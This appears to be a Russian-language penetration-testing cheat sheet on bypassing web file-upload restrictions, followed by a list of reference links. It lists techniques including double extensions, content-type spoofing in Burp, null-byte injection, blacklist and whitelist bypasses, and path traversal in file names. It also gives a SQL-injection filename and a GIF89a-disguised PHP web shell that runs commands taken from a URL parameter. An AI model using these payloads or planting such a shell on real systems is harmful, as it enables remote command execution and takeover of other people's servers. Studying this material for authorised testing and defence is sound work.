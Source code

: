 # FU
File Upload

Загрузка шелла в лоб s.php

Двойной расшиерние s.php.png

Изменение content-type injection technique, например, грузить s.php, а ставить content-type: image/png, или application/x-php, не забывать делать это на лету, перехватывая запрос в BURP

Null Byte Injection %00 (см https://www.hackingarticles.in/5-ways-file-upload-vulnerability-exploitation/)

Обход Blacklisting File Extensions PHp or PHP3 и так далее

Использовать в имени файла пути, например ../../../index.php а так же в расширении файла, например s.../../../../../.png -> s./../../../../../.png -> s./../../../../../png

Менять type="file" на type="url" в исходном коде 

Обход whiitlist - s.php.lolgif s.php.111\gif s.php\file.txt

sql inj - sleep(10).gif

GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>


https://github.com/daffainfo/AllAboutBugBounty/blob/master/BypassFileUpload.md !!!


https://lwierzbicki.github.io/2020/06/10/from-file-upload-to-rce.html


https://medium.com/@satboy.fb/art-of-unrestricted-file-upload-exploitation-92ed28796d0
https://www.owasp.org/index.php/Unrestricted_File_Upload
https://www.owasp.org/index.php/Test_Upload_of_Malicious_Files_(OTG-BUSLOGIC-009)
https://www.owasp.org/index.php/Test_Upload_of_Unexpected_File_Types_(OTG-BUSLOGIC-008)
https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487
https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/ !!!
https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf
https://www.slideshare.net/HackIT-ukraine/15-technique-to-exploit-file-upload-pages-ebrahim-hegazy
https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/file-upload

https://telegra.ph/Obhod-Cloudflare-WAF-pri-zagruzke-fajlov-07-11 оБХОД waf ПРИ ЗАГРУЗКЕ ФАЙЛОВ
